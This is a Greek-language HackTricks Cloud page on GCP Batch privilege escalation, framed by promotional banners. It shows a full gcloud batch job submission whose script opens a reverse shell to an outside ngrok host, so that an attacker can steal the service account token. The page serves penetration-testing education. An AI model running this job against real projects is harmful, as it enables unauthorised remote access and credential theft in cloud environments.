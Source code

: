 # GCP - Ενίσχυση Προνομίων Πακέτου

<details>

<summary><strong>Μάθετε το χάκινγκ AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης των HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στα HackTricks** ή να **κατεβάσετε τα HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
* αποθετήρια github.

</details>

## Πακέτο

Βασικές πληροφορίες:

{% content-ref url="../gcp-services/gcp-batch-enum.md" %}
[gcp-batch-enum.md](../gcp-services/gcp-batch-enum.md)
{% endcontent-ref %}

### `batch.jobs.create`, `iam.serviceAccounts.actAs`

Είναι δυνατόν να δημιουργηθεί ένα πακέτο εργασιών, να ληφθεί ένα αντίστροφο κέλυφος και να εξαχθεί το διακριτικό μεταδεδομένων του λογαριασμού υπηρεσίας (λογαριασμός υπολογισμού από προεπιλογή).
```bash
gcloud beta batch jobs submit job-lxo3b2ub --location us-east1 --config - <<EOD
{
"name": "projects/gcp-labs-35jfenjy/locations/us-central1/jobs/job-lxo3b2ub",
"taskGroups": [
{
"taskCount": "1",
"parallelism": "1",
"taskSpec": {
"computeResource": {
"cpuMilli": "1000",
"memoryMib": "512"
},
"runnables": [
{
"script": {
"text": "/bin/bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/10396 0>&1'\n"
}
}
],
"volumes": []
}
}
],
"allocationPolicy": {
"instances": [
{
"policy": {
"provisioningModel": "STANDARD",
"machineType": "e2-micro"
}
}
]
},
"logsPolicy": {
"destination": "CLOUD_LOGGING"
}
}
EOD
```
<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks στο AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε τη **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή την [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
* αποθετήρια github.

</details>

